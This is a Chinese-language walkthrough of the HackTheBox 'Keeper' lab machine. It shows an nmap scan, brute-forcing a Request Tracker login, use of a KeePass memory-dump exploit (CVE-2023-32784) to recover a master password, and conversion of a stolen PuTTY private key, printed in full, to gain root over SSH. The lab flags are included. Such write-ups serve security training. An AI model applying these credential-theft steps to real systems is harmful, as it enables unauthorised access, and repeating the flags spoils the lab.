

HTB Keeper

使用nmap进行端口扫描

```
nmap -sV -sC -v -oN keeper 10.10.11.227
```

```
# Nmap 7.93 scan initiated Mon Jan  8 19:01:59 2024 as: nmap -sV -sC -v -oN keeper 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (1.4s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  8 19:02:40 2024 -- 1 IP address (1 host up) scanned in 40.50 seconds
                                                                                            
```

把域名及子域名添加到hosts，发现一个登录框，以及是RT 4.4.4版本


搜索RT4.4.4没啥重要漏洞能利用，尝试爆破登录框


爆破出来用户为root 密码为password

登录进去发现一个lnorgaard用户在他的备注中说的，初始密码设置为Welcome2023!

使用ssh登录到目标机


查看到用户flag


```
f4ed517f811635fb6ca7259a51cebe5e
```

使用sudo -l查看使用有sudo权限，并没有



上传linpeas，进行信息收集


在用户目录发现一个RT30000.zip压缩包


开启http传输到本地


解压后发现是一个dmp文件，dmp文件是系统错误产生的文件

G搜索dmp exploit， 发现有[CVE-2023-32784](https://github.com/vdohney/keepass-password-dumper)漏洞


**[keepass-转储-主密钥](https://github.com/matro7sh/keepass-dump-masterkey)**

```
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
python poc.py KeePassDumpFull.dmp       
```

带●的是遗失的，第二个字符是猜测的，有些wp不懂就去看资料，说●像o，又懂完了，别误人子弟。


使用G搜索，密码为：rødgrød med fløde


下载密码管理器keepassxc打开passcodes

```
apt install keepassxc
keepassxc passcodes.kdbx
```


将备注复制到123.txt

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

下载putty工具，并将其转成openssh格式的id_rsa文件

```
apt install putty-tools
puttygen 123.txt -O private-openssh -o id_rsa
```

赋予id_rsa文件600权限，并用ssh 密钥文件连接

```
chmod 600 id_rsa
ssh root@10.10.11.227 -i id_rsa
```


```
13b55d7528b666b3dc00ce2caf264ffe
```

